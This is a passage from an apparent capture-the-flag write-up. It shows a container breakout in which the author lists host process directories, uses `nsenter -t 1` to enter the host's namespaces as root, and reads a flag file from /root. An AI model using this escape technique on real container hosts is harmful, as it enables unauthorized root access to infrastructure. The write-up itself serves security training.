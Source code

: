 ```bash
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 1091
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 1095
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 11
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 111
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 112
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 113
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 12
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 122
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 125
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 126
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 13
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 131
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 132
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 133
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 14
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 15
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 1512
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 1560
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 16
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 173
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 18
...
```

We still need access to the remaining Linux namespaces though so let's use `nsenter` to access them.

```bash
root@node-1:/# nsenter -t 1 -i -u -n -m bash
tput: No value for $TERM and no -T specified
tput: No value for $TERM and no -T specified

root@node-1:/[0]$
```

We're in! A quick look into the `/root` directory shows us that there is a flag file.

```bash
root@node-1:/[0]$ ls -la /root/
total 36
drwx------  5 root root 4096 Nov 24 09:15 .
drwxr-xr-x 19 root root 4096 Nov 24 09:13 ..
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  4 root root 4096 Nov 24 09:13 .gnupg
-rw-r--r--  1 root root  161 Nov 24 09:15 .profile
drwx------  2 root root 4096 Jan 23  2023 .ssh
-rw-r--r--  1 root root  165 Jan 23  2023 .wget-hsts
-rw-r--r--  1 root root   45 Nov 24 09:15 flag.txt
drwx------  4 root root 4096 Jan 23  2023 snap
```

Let's get the flag.

```bash
root@node-1:/[0]$ cat /root/flag.txt
flag_ctf{NextGenAutomationBreakoutAchievedTM}
```
